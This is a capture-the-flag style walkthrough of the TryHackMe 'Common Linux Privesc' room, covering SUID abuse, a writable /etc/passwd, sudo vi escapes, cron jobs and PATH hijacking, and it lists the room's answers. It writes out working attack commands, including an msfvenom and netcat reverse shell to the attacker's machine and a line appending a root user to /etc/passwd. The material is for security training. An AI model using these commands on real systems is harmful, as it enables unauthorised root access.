

# Common Linux Privesc

[Common Linux Privesc](https://tryhackme.com/room/commonlinuxprivesc)

## Summary

1. Privilege Escalation

   1. Going from lower permission to higher permission in system
   2. Exploitation of a vulnerability, design flaw or configuration oversight to gain unauthorized access to resources

2. Direction of Privilege Escalation

   

   1. **Horizontal Privilege Escalation**

      1. Take over different user who is on the same privilege level
      2. Allows inheritance of different files and accesses owned by other users

   2. **Vertical Privilege Escalation (Privilege Elevation)**

      1. Gain higher privileges or access with existing low privilege account

3. Enumeration

   1. [**LinEnum**](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

      1. Performs common commands related to privilege escalation.

   2. Transporting `LinEnum` to target machine

      1. `python -m SimpleHTTPServer 8000` to start a Python Web Server on port 8000 and `wget localIp:8000/path/to/LinEnum`, then `chmod +x LinEnum.sh` to make file executable.
      2. Simply copy paste the code.

   3. `LinEnum` output

      1. `Kernel` - kernel information
      2. `Can we read/write sensitive files:` - world-writable files
      3. `SUID Files` - SUID files
      4. `Crontab Contents` - scheduled cron jobs

4. SUID / SGID

   1. SUID: Set owner User ID up on execution
   2. Normal permission: `rwx`
   3. Special permission: `s`
   4. allows the file to run with permissions of whoever the **owner** (e.g. root) is
   5. Can be found using `LinEnum`
   6. Can be found using `find / -perm -u=s -type f 2>/dev/null`

5. `/etc/passwd` file

   1. Stores information about users
   2. Format: `test:x:0:0:root:/root:/bin/bash`
      1. _Username_: used when login
      2. _Password_: `x` character indicates that encrypted password is stored in `/etc/shadow` file.
      3. _UID_: UserId
      4. _GID_: GroupId, stored in `/etc/groups`
      5. _User ID Info_: comments about the user
      6. _Home directory_: absolute path the user will be using when logged in
      7. _Command/shell_: absolute path to a command
   3. Use `openssl passwd -1 -salt <username> <password>` to generate new password hash
   4. add `<username>:<password hash>:0:0:root:/root:/bin/bash` to passwd to create a new root user

6. Escaping binary file

   1. Use `sudo -l` to check what permissions the user has
   2. If there are any binary permissions, use [gtfobins](https://gtfobins.github.io/) to exploit it.

7. Crontab

   1. Cron Daemon: execute commands at specific date / time
   2. `etc/crontab` stores all the cron jobs
   3. When there are scripts running in crontab that are writable to the current user, it can be exploited

8. Exploiting PATH Variable

   1. Rewrite `PATH` so that SUID binaries calls programs written by us in new `PATH` to exploit the system
   2. e.g. if `script` is an SUID binary containing calls to `ls`, we can imitate a new `ls` file to open `/bin/bash` and add the dir containing the new `ls` to the start of `PATH`. Then when `script` is called, a new shell as root will be opened.

## Solutions

1. Get Connected

   1. Deploy and Complete

2. Understanding Privesc

   1. Complete

3. Direction of Privilege Escalation

   1. Complete

4. Enumeration

   1. `ssh user3@ip` -> `password`
   2. `polobox`
   3. `cat /etc/passwd` -> `8`
   4. `cat /etc/shells` -> `4`
   5. `find /home/ 2>/dev/null | grep *.sh` -> `autoscript.sh`
   6. `/etc/passwd`
   7. Complete

5. Abusing SUID/GUID files

   1. `/home/user3/shell`
   2. `./shell` -> Complete
   3. Complete

6. Exploiting Writable `/etc/passwd`

   1. `exit` -> `su user7` -> `password`
   2. `vertical`
   3. `openssl passwd -1 -salt new 123` -> `$1$new$p7ptkEKU1HnaHpRtzNizS1`
   4. `new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`
   5. `echo new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash >> etc/passwd`
   6. `su new` -> `123`

7. Escaping Vi Editor

   1. `exit` -> `su user8` -> `password`
   2. `NOPASSWD`
   3. `sudo vi`
   4. `:!sh`

8. Exploiting Crontab

   1. `exit` -> `su user4` -> `password`
   2. Boot up Host Kali machine
   3. `man msfvenom` -> `-p`
   4. `msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R` on Kali machine
   5. `/home/user4/desktop`
   6. `echo "mkfifo /tmp/vtpw; nc <IP of Kali Machine> 8888 0</tmp/vtpw | /bin/sh >/tmp/vtpw 2>&1; rm /tmp/vtpw" > autoscript.sh` on target machine
   7. `nc -lvp 8888` on Kali machine

9. Exploiting PATH Variable

   1. `exit` -> `su user5` -> `password`
   2. `ls`
   3. `cd tmp`
   4. `echo "/bin/bash" > ls`
   5. `chmod +x ls`
   6. `export OLD_PATH=$PATH` -> `export PATH=/tmp/:PATH`
   7. `cd`
   8. `./script`
   9. Finish-up: `exit` -> `export PATH=$OLD_PATH`

10. Expanding Your Knowledge

    1. Complete
